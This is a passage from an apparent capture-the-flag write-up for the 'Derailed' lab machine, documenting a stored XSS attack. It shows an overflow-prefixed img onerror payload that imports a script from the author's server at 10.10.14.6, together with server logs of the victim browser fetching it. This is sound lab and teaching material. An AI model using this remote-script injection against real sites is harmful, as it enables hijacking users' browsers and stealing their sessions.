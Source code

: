 The complete name is displayed correctly, but the "created" time failed to load the image, and there's a pop-up alert in the foreground with the message "1"!

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

I begin by fetching data from my server using the username.

```apacheconf
msplmee@kali:~$ cat xss.js    
echo "alert(1);" 
```

{% code overflow="wrap" %}
```
msplmee@kali:~$ python3 -c "print('A'*48+ \"<img src='#' onerror=import('http://10.10.14.6/xss.js')>\")"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA<img src='#' onerror=import('http://10.10.14.6/xss.js')>
```
{% endcode %}

When I log in, submit a note, and view it, there is a request on my server.

```apacheconf
msplmee@kali:~$ python3 -m http.server 80                                      
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.6 - - [13/Sep/2023 07:38:15] "GET /xss.js HTTP/1.1" 200 -
```

Unfortunately, the console doesn't show the contents, but there's an error message:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

I use `http-server` with the `--cors` option to avoid CORS policy issues.

```apacheconf
msplmee@kali:~/HTB/Machine/Derailed$ http-server -p 80 --cors
Starting up http-server, serving ./
...
Available on:
  http://10.10.14.6:80
Hit CTRL-C to stop the server

[2023-09-13T12:51:53.120Z]  "GET /xss.js" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36"
```
